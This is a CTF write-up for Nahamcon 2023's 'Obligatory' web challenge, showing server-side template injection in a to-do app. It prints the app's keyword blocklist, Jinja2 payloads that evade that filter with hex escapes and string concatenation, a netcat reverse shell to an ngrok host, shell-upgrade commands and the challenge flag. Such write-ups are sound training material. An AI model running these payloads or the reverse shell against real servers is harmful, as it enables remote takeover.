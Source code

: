 ```yaml
---
name: Obligatory (2023)
event: Nahamcon CTF 2023
category: Web
description: Writeup for Obligatory (Web) - Nahamcon CTF (2023) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Obligatory

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/XHg_sBD0-es/0.jpg)](https://www.youtube.com/watch?v=XHg_sBD0-es?t=1075 "Nahamcon CTF 2023: Obligatory (Web)")

## Description

> Every Capture the Flag competition has to have an obligatory to-do list application, right???

## Solution

Register account and try some payloads (XSS, SSTI, SQLi) but the notes all render as text without issues.

However, when a task is created there's a GET parameter `success`, that's set to `Task created`.

When changing the value to an [SSTI polyglot](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection), `${{<%[%'"}}%\`, we get an error message.

{% code overflow="wrap" %}
```python
HACKER DETECTED!!!!
The folowing are not allowed: [ {{\s*config\s*}},.*class.*,.*mro.*,.*import.*,.*builtins.*,.*popen.*,.*system.*,.*eval.*,.*exec.*,.*\..*,.*\[.*,.*\].*,.*\_\_.* ]
```
{% endcode %}

Bypasses: https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#accessing-subclasses-with-bypasses

More bypasses here: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---filter-bypass

{% code overflow="wrap" %}
```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```
{% endcode %}

It's blocked due to `builtin` and `popen`, so let's go through it manually.

{% code overflow="wrap" %}
```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')}}
```
{% endcode %}

We can use hex or concatenation to bypass the filter.

{% code overflow="wrap" %}
```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuil'+'tins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimp'+'ort\x5f\x5f')('os')|attr('pop'+'en')('id')|attr('read')()}}
```
{% endcode %}

We don't get output.. let's [hex encode a reverse shell](<https://gchq.github.io/CyberChef/#recipe=To_Hex('%5C%5Cx',0)&input=cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI%2BJjF8bmMgOC50Y3Aubmdyb2suaW8gMTU3MjMgPi90bXAvZg>).

{% code overflow="wrap" %}
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 8.tcp.ngrok.io 15723 >/tmp/f
```
{% endcode %}

{% code overflow="wrap" %}
```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuil'+'tins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimp'+'ort\x5f\x5f')('os')|attr('pop'+'en')('\x72\x6d\x20\x2f\x74\x6d\x70\x2f\x66\x3b\x6d\x6b\x66\x69\x66\x6f\x20\x2f\x74\x6d\x70\x2f\x66\x3b\x63\x61\x74\x20\x2f\x74\x6d\x70\x2f\x66\x7c\x2f\x62\x69\x6e\x2f\x73\x68\x20\x2d\x69\x20\x32\x3e\x26\x31\x7c\x6e\x63\x20\x38\x2e\x74\x63\x70\x2e\x6e\x67\x72\x6f\x6b\x2e\x69\x6f\x20\x31\x35\x37\x32\x33\x20\x3e\x2f\x74\x6d\x70\x2f\x66')|attr('read')()}}
```
{% endcode %}

Make the shell interactive.

{% code overflow="wrap" %}
```bash
python3 -c 'import pty;pty.spawn("/bin/bash");'
CTRL+Z
stty raw -echo; fg;
export TERM=linux;clear;
```
{% endcode %}

Check the database folder.

{% code overflow="wrap" %}
```bash
cd DB
strings *
```
{% endcode %}

We find the flag!

Flag: `flag{7b5b91c60796488148ddf3b227735979}`
